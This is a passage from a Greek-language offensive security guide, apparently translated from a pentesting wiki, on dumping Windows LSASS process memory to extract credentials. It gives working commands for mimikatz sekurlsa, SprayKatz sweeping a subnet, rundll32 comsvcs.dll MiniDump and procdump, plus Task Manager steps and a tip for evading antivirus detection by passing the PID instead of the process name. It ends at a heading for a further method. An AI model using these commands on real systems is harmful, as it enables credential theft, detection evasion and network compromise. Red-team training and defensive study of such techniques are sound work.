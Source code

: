 {% code title="Εξαγωγή διαπιστευτηρίων από την απόθεση" %}
```c
//Load the dump
mimikatz # sekurlsa::minidump lsass.dmp
//Extract credentials
mimikatz # sekurlsa::logonPasswords
```
{% endcode %}

Αυτή η διαδικασία γίνεται αυτόματα με το [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24`

**Σημείωση**: Ορισμένα **AV** μπορεί να **ανιχνεύσουν** ως **κακόβουλο** τη χρήση του **procdump.exe για να κάνετε dump το lsass.exe**, αυτό συμβαίνει επειδή **ανιχνεύουν** τη συμβολοσειρά **"procdump.exe" και "lsass.exe"**. Έτσι, είναι **πιο κρυφό** να **περάσετε** ως **όρισμα** το **PID** του lsass.exe στο procdump **αντί για** το **όνομα lsass.exe.**

### Dumping lsass με **comsvcs.dll**

Ένα DLL που ονομάζεται **comsvcs.dll** που βρίσκεται στο `C:\Windows\System32` είναι υπεύθυνο για **dumping process memory** σε περίπτωση κρασάρισματος. Αυτό το DLL περιλαμβάνει μια **λειτουργία** που ονομάζεται **`MiniDumpW`**, σχεδιασμένη να καλείται χρησιμοποιώντας το `rundll32.exe`.\
Δεν είναι σχετικό να χρησιμοποιήσετε τα πρώτα δύο ορίσματα, αλλά το τρίτο χωρίζεται σε τρία συστατικά. Το ID της διαδικασίας που θα γίνει dump αποτελεί το πρώτο συστατικό, η τοποθεσία του αρχείου dump αντιπροσωπεύει το δεύτερο, και το τρίτο συστατικό είναι αυστηρά η λέξη **full**. Δεν υπάρχουν εναλλακτικές επιλογές.\
Αφού αναλυθούν αυτά τα τρία συστατικά, το DLL εμπλέκεται στη δημιουργία του αρχείου dump και στη μεταφορά της μνήμης της καθορισμένης διαδικασίας σε αυτό το αρχείο.\
Η χρήση του **comsvcs.dll** είναι εφικτή για το dumping της διαδικασίας lsass, εξαλείφοντας την ανάγκη να ανεβάσετε και να εκτελέσετε το procdump. Αυτή η μέθοδος περιγράφεται λεπτομερώς στο [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords).

Η ακόλουθη εντολή χρησιμοποιείται για την εκτέλεση:
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
```
**Μπορείτε να αυτοματοποιήσετε αυτή τη διαδικασία με** [**lssasy**](https://github.com/Hackndo/lsassy)**.**

### **Dumping lsass με τον Διαχειριστή Εργασιών**

1. Κάντε δεξί κλικ στη Γραμμή Εργασιών και επιλέξτε Διαχειριστής Εργασιών
2. Κάντε κλικ σε Περισσότερες λεπτομέρειες
3. Αναζητήστε τη διαδικασία "Local Security Authority Process" στην καρτέλα Διαδικασίες
4. Κάντε δεξί κλικ στη διαδικασία "Local Security Authority Process" και επιλέξτε "Create dump file".

### Dumping lsass με το procdump

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) είναι ένα υπογεγραμμένο δυαδικό αρχείο της Microsoft που είναι μέρος της σουίτας [sysinternals](https://docs.microsoft.com/en-us/sysinternals/).
```
Get-Process -Name LSASS
.\procdump.exe -ma 608 lsass.dmp
```
## Dumpin lsass with PPLBlade
